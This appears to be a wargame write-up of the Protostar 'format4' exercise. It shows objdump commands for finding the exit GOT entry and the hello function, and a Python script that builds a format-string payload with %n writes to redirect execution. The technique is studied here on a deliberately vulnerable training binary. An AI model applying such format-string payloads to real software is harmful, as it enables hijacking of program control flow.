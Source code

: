 ## [format4](https://exploit-exercises.com/protostar/format4)

* * * 

>###About
>
>%p format4 looks at one method of redirecting execution in a process.
>
>Hints
>
>* objdump -TR is your friend

In ELF-executables, there's this table of externally located functions
called Global offset table (GOT) which is useful for using shared libraries.

A call to a external function goes through GOT, and it's address is
resolved at run-time.

The exact location we need to modify (`exit`s listing in GOT), can
be viewed by running `objdump -TR` as stated in the hint.

~~~
$ objdump -TR /opt/protostar/bin/format4
DYNAMIC RELOCATION RECORDS
08049724 R_386_JUMP_SLOT   exit
~~~

And the relevant address we want to overwrite via the our exploit is
also fetched via objdump.

~~~
$ objdump -t /opt/protostar/bin/format4 | grep hello
080484b4 g     F .text	0000001e              hello
~~~

Putting two and two together, I whipped up a quick python-script
which generates a payload.

{% highlight python %}
# format4_payload.py
PAYLOAD='\x24\x97\x04\x08' +\
	'\x25\x97\x04\x08' +\
	'\x26\x97\x04\x08' +\
	'\x27\x97\x04\x08' +\
	'%%%su' % str(0xb4-16) + '%4$n' +\
	'%%%su' % str(0x184-0xb4) + '%5$n' +\
	'%%%su' % str(0x204-0x184) + '%6$n' +\
	'____' + '%7$n'
print PAYLOAD
{% endhighlight %}

And, of-course - running the executable with our payload, overwrites
the GOT-entry for `exit` and execution is instead passed into the hello function.
